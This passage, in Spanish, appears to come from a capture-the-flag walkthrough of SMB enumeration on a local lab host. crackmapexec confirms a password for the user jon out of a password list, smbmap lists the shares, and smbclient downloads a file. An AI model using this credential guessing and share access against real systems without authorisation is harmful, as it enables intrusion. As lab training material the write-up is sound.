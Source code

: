 Al probarlas con ssh para jon, no funcionan.

## SMB(445)

Empleamos **crackmapexec** para ver si jon y alguna contra son validos:

   ```bash

crackmapexec smb 172.17.0.2 -u jon -p contras                          
SMB         172.17.0.2      445    111D02563EA1     [*] Windows 6.1 Build 0 (name:111D02563EA1) (domain:111D02563EA1) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    111D02563EA1     [+] 111D02563EA1\jon:seacercaelinvierno 

```

Empleamos **smbmap** para tener una visión general del smb:
   ```bash
smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno             

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: pressenter.hl             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        shared                                                  READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.17.12-Debian)
        jon                                                     READ ONLY       Home Directories
```

Usamos **smbclient** para acceder :

``` bash
smbclient //172.17.0.2/shared/ -U jon -p seacercaelinvierno
Password for [WORKGROUP\jon]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Dec  9 13:28:42 2024
  ..                                  D        0  Tue Jul 16 22:25:59 2024
  proteccion_del_reino                N      313  Tue Jul 16 22:26:00 2024

                229727556 blocks of size 1024. 191808500 blocks available
smb: \> cd proteccion_del_reino 
cd \proteccion_del_reino\: NT_STATUS_NOT_A_DIRECTORY
smb: \> dir
  .                                   D        0  Mon Dec  9 13:28:42 2024
  ..                                  D        0  Tue Jul 16 22:25:59 2024
  proteccion_del_reino                N      313  Tue Jul 16 22:26:00 2024

                229727556 blocks of size 1024. 191808500 blocks available
smb: \> get proteccion_del_reino 
```